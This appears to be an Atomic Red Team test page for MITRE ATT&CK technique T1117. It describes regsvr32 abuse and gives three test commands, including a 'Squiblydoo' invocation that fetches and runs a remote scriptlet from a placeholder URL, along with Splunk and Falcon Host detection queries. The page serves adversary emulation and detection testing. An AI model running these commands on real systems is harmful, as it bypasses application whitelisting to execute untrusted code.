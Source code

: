 # T1117 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)
<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: SubTee Regsvr32 Whitelisting Bypass) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via Component Object Model Hijacking. (Citation: Carbon Black Squiblydoo Apr 2016)

Detection: Use process monitoring to monitor the execution and arguments of regsvr32.exe. Compare recent invocations of regsvr32.exe with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity. Command arguments used before and after the regsvr32.exe invocation may also be useful in determining the origin and purpose of the script or DLL being loaded. (Citation: Carbon Black Squiblydoo Apr 2016)

Platforms: Windows

Data Sources: Loaded DLLs, Process monitoring, Process command-line parameters, Windows Registry

Defense Bypassed: Process whitelisting, Anti-virus

Permissions Required: User, Administrator

Remote Support: No

Contributors: Casey Smith</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | Regsvr32.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{filename} scrobj.dll
```
### Detection
#### Splunk
```
source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventDescription="Process Create" parent_process="*Windows\\System32\\regsvr32.exe" ParentCommandLine IN ("*/i:*", "*scrobj.dll*") AND ParentCommandLine!="*http*"
| rex field=ParentCommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| rename process AS suspicious_process
| eval detectID="ART-T1117-1"
| table detectID _time User ParentCommandLine suspicious_process CommandLine sct_file
```
#### Falcon Host
```
event_simpleName IN (SyntheticProcessRollup2, ProcessRollup2) ImageFileName="*Windows\\\System32\\\\regsvr32.exe" CommandLine IN ("*/i:*", "*scrobj.dll*") AND CommandLine!="*http*"
| rex field=CommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| eval ParentProcess=ImageFileName
| eval ParentCLI=CommandLine
| eval ParentUser=UserName
| rename TargetProcessId_decimal AS ParentProcessId_decimal
| join ParentProcessId_decimal 
	[search event_simpleName IN (SyntheticProcessRollup, ProcessRollup2)
	| eval ChildProcess=ImageFileName
	| eval ChildCLI=CommandLine
	| eval ChildUser=UserName]
| eval detectID="ART-T1117-1"
| table detectID _time ParentUser ParentCLI ChildProcess ChildCLI sct_file
```
#### ELK
<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | http://www.example.com/file.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{url} scrobj.dll
```
### Detection
#### Splunk
```
source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventDescription="Process Create" parent_process="*Windows\\System32\\regsvr32.exe" ParentCommandLine IN ("*/i:http*", "*scrobj.dll*")
| rex field=ParentCommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| eval detectID="ART-T1117-2"
| table detectID _time User ParentCommandLine process CommandLine sct_file
```
#### Falcon Host
```
event_simpleName IN (SyntheticProcessRollup2, ProcessRollup2) ImageFileName="*Windows\\\System32\\\\regsvr32.exe" CommandLine IN ("*/i:http*", "*scrobj.dll*")
| rex field=CommandLine "/i:(?<sct_file_tmp>\S+)"
| eval sct_file=replace(sct_file_tmp, ":", "[:]")
| eval ParentProcess=ImageFileName
| eval ParentCLI=CommandLine
| eval ParentUser=UserName
| rename TargetProcessId_decimal AS ParentProcessId_decimal
| join ParentProcessId_decimal 
	[search event_simpleName IN (SyntheticProcessRollup, ProcessRollup2)
	| eval ChildProcess=ImageFileName
	| eval ChildCLI=CommandLine
	| eval ChildUser=UserName]
| eval detectID="ART-T1117-2"
| table detectID _time ParentUser ParentCLI ChildProcess ChildCLI sct_file
```
#### ELK
<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | payload.dll|

#### Run it with `command_prompt`!
```
regsvr32.exe #{dll_name}
```
<br/>
